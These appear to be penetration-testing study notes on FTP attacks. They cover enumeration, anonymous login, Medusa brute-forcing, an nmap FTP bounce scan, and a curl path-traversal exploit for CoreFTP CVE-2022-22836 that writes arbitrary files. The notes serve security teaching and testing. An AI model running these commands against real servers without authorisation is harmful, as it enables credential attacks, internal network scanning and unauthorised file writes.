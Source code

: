 
### Manual FTP Connection

```bash
ftp <target_IP>
```

### Netcat FTP Connection

```bash
nc <target_IP> 21
```

### Anonymous Login (FTP Client)

```bash
ftp <target_IP>
Username: anonymous
Password: (Press Enter)
```

### Brute-Force (Medusa)

```bash
medusa -u <username> -P <password_list> -h <target_IP> -M ftp
```

### FTP Bounce Attack (Nmap)

```bash
nmap -Pn -v -n -p <target_port> -b anonymous:password@<ftp_server_IP> <internal_target_IP>
```

### CoreFTP Arbitrary File Write (curl)

```bash
curl -k -X PUT -H "Host: <target_IP>" --basic -u <username>:<password> --data-binary "Payload" --path-as-is https://<target_IP>/../../../../../../<filename>
```

### FTP Client Commands (Post-Login)

```bash
ls                     # List directory contents
cd <directory>         # Change directory
get <filename>         # Download a single file
mget <filename1> <filename2> # Download multiple files
put <local_filename>   # Upload a single file
mput <local_filename1> <local_filename2> # Upload multiple files
help                   # Show help for FTP commands
```


**. FTP Basics**

- **Function:**
    - File transfer between computers.
    - Directory and file operations (list, rename, delete).
- **Port:** TCP/21.
- **Attack Vectors:**
    - Misconfigurations (anonymous access, excessive privileges).
    - Exploiting known vulnerabilities.
    - Discovering new vulnerabilities.

**II. Enumeration**

- **Nmap:**
    - `-sC` (default scripts): `ftp-anon` script (anonymous login check).
    - `-sV` (version enumeration): FTP banner, version info.
    - Example: `nmap -sC -sV -p 21 <target_IP>`
- **Manual Interaction:**
    - `ftp` client.
    - `nc` (netcat).

**III. Misconfigurations**

- **Anonymous Authentication:**
    - Username: `anonymous`, no password.
    - Risks: Sensitive data access, malicious file uploads.
- **Access Control:**
    - Incorrect read/write permissions.

**IV. Protocol-Specific Attacks**

- **Brute-Forcing:**
    - Tools: Medusa (`medusa -u <user> -P <passlist> -h <target> -M ftp`).
    - Note: Password spraying is more effective.
- **FTP Bounce Attack:**
    - Using an FTP server to scan internal network devices.
    - Nmap: `-b anonymous:password@<FTP_server_IP> <internal_target_IP>`.
    - Modern servers have protections, but misconfigurations exist.

**V. Latest FTP Vulnerabilities (CVE-2022-22836 - CoreFTP)**

- **Vulnerability:**
    - Authenticated directory/path traversal.
    - Arbitrary file write.
- **Attack Method:**
    - HTTP PUT request with directory traversal characters (`../`).
- **Exploitation:**
    - `curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops`
- **SPPD Breakdown:**
    - **Directory Traversal:**
        - Source: Malicious HTTP PUT request.
        - Process: Misinterprets path.
        - Privileges: Bypass restrictions.
        - Destination: Local system (traversed directory).
    - **Arbitrary File Write:**
        - Source: Filename and content.
        - Process: Writes content.
        - Privileges: Allowed due to traversal.
        - Destination: Arbitrary file on the local system.

**Points for Consideration:**

- **Active vs. Passive FTP:** Briefly mention the difference and security implications.
- **Secure FTP:** Discuss SFTP and FTPS and their advantages.
- **FTP Tools:** Expand on tools like `lftp` and `FileZilla` (for client side), and also vsftpd, and proftpd (for server side).
- **Real-World Examples:** Add more examples of FTP misconfigurations and exploits.
- **Mitigation:** Provide more detailed mitigation strategies for FTP vulnerabilities.
- **More Nmap script examples:** There are many more useful ftp Nmap scripts.
- **More curl usage:** There are many more ways to use curl to interact with FTP.
